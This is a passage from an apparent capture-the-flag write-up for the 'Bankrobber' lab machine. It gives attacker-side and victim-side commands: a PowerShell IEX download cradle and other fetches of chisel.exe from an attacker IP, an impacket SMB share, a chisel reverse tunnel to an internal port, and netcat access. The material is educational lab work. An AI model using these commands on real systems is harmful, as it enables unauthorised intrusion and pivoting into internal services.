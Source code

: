 ```cmd
cmd /c powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/chisel.exe')"
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.10\smbFolder\chisel.exe .\chisel.exe

powershell -c iwr -uri http://10.10.14.10/chisel.exe -OutFile .\chisel.exe
# :)
powershell -c certutil -hashfile .\chisel.exe MD5
```

> **Attacker Machine**:

```bash
chmod +x chisel
./chisel
./chisel server --reverse -p 1234
```

> **Victime Machine**:

```cmd
.\chisel.exe
.\chisel.exe client 10.10.14.10:1234 R:910:127.0.0.1:910
```

> **Attacker Machine**:

```bash
lsof -i:910
nc localhost 910
```

<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
